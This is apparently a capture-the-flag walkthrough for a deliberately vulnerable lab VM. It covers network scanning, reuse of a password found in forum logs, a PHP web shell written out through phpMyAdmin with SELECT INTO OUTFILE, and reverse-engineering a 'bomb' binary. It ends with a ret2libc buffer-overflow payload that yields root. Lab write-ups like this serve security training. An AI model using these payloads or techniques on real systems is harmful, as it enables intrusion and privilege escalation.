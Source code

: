 When we've set up our .iso file we will see this:

We need to understand what exactly we are going to "hack".
1. Using ifconfig to see the active interfaces, virtual boxes
   `ifconfig`:

2. Using nmap to see which ports are open for the VM and what exact ip address it located at
   `nmap 192.168.12.1-255`:
   
   We see that port 80 accessible through the browser

3. Put this 192.168.12.128 into the browser address field and you will get a simple page:

4. Now we can use DIRB - scaner of the web content which can find possibly hidden information of the page using it's library
   4.1 `./dirb http://192.168.12.128 wordlist/common.txt -w`
   output gives us a possibility to see the "forum" folder and some other which are not really relevant:
   http://192.168.12.128/forum not found in browser

   4.2 lets try ssl version of the site
   `./dirb http://192.168.12.128 wordlist/common.txt -w`
   and we get much more info now, but there are few main folders:
   https://192.168.12.128/forum
   https://192.168.12.128/webmail
   https://192.168.12.128/phpmyadmin

5. First checking out the "forum" folder, proceeding in the browser to https://192.168.12.128/forum
   5.1 We see few topics, checking first one with login problem:
       looks like the log outpit of log in attempts
       one line contains some symbols that are looking like a password
       assuming that it was log in try we can think that it's user password, probably the one who created the topic
   5.2 Log in functionality is present on a forum, as well as users tab:
       there are not so much users, so we going to try to login with credentials of them and this password that we have:
       
       the try to login with lmezard and password that we've found was successfull
       Keep in mind that we have access to the "webmail" page and we see the email of the user
       
6. Going to check the webmail page
   6.1 trying if user email that we found and password that we used to login are matching, seems it works
   6.2 inbox contains 2 emails, one is very interesting, but another one contains root DB access, which seems more relevant to us necause we remember that we have "phpmyadmin" page on a site

7. phpmyadmin investigation
   7.1 lets try to login with credentials that we've got
   7.2 using suggestions from this topic http://www.informit.com/articles/article.aspx?p=1407358&seqNum=2 we are going to inject php file that allows us to run a shell commands from browser
   During several attemtps of the injection files into different known folders that exist on the site, we were finally able to make a needed injection into the "temaplates_c" folder
    `SELECT "<? System($_REQUEST['cmd']); ?>" into outfile "/var/www/forum/templates_c/cmd.php";`
8. thanks to the tutorial we can now use shell commands of the server from the browser 
   8.1 which gives us the possibility to find credentials to access the server found in password file in LOOKATME folder
   8.2 looks like an ssh or ftp access 
9.     the ssh try
       ftp
       9.1 we can see two files, get them
       9.2 readme contains some hint for us
       9.3 fun is archive, decompressing it
       it contains a lot of .pcap files
       9.4 using cat command for fun file we can see simple c programm that outputs 12 letters and says it's the password, there are also function calls get_me#() from 1 to 12 each returns letter
       9.5 we found out that archive 8 files return the values from the password
       lets sort them according to numbers inside and we will get the order
       APM1E I
       ZPY1Q h
       ECOW1 e
       7DT5Q a
       T7VV0 r
       J5LKW t
       T44J5 p
       BJPCP wnage
       now we see that the password "Iheartpwnage" looks like case sensetive
       9.6 In fun archive we also saw hint about SHA256, lets encode our password to SHA256 "330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4"
       9.7 and try to ssh on the server with "laurie@192.168.12.128" and password
10. We are successfully ssh with laurie user
    10.1 we see the README file that gives us a hint how to get password for the ssh access with user "thor"
    10.2 disasemple bomb file and we see 6 functions
         Phase_1 pushes value to the stack 0x80497c0, which is "Public speaking is very easy." Also hint says that password has no spaces and case sensetive, modifing string and getting first part of out password: `Publicspeakingisveryeasy.`
         Phase_2 function 'read_six_numbers' and the string '%d %d %d %d %d %d' at the address 0x08049b1b. We assume that first number is 1, the others are multiples by the last number in the sequense so we have to do it 6 times according to the string. 1*1 2*1 2*3 6*4 24*5 120*6 so the next part of our password is: `12624120720`
         Phase_3 contains the string "%d %c %d" before the call of sscanf function, hint has given us that the character passed to the function should be `b`, so it gives us the solution of "1 b 214", next part of the password is "1b214"
         Phase_4 contains the string "%d" before the call of sscanf function, after the call eax must be equal to 0x37 which is 55, so the number passed to the function we get by inversing the assembly code "9"
         Phase_5 contains the tring "giants" at the address 0x804980b. we also see string isrveawhobpnutfg\260\001 at the address 0x804b220, and a programm gives us a hint to exchange the letters from giants to once from that string and we get `opekmq`
         Phase_6 the programm read_six_numbers and a hint gives us number 4, we also see 6 nodes {253} -> {725} -> {301} -> {997} -> {212} -> {432}, 4-th of the is the biggest, lets assume that we need to order them in descending order then our password part will be: `426315` though according to the forum we must swap 3 and 1 in last part to get the access
        The password in the end: `Publicspeakingisveryeasy.126241207201b2149opekmq426135`

11. ssh thor@192.168.12.128 
    We see the README and turtle files
    README suggests us to login with user zaz
    the turtle file is a draw map which is python module
    it gives us the word SLASH
12. ssh zaz@192.168.12.128
    trying password SLASH, does not work
    sha256 encryption of SLASH does not work eather
    md5 does work
13. we find a file exploit_me and it has a root rights
    If we open exploit_me into gdb we notice that we can use a buffer overflow attack and overwrite the EIP register due to the use of an unprotected strcpy.
    Playing around with the command line we can make the program crash at 140 bytes.
    ./exploit_me $(python -c "print('A' * 140)")
14. 
$ ./exploit_me $(python -c "print('A' * 140 + '\xb7\xe6\xb0\x60'[::-1] + 'AAAA' + '\xb7\xf8\xcc\x58'[::-1])")
id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz) 
    gives us root permissions using a well know security risk on strcpy which provides us with the possiblity to user ret2libc atack, very well known attack
    
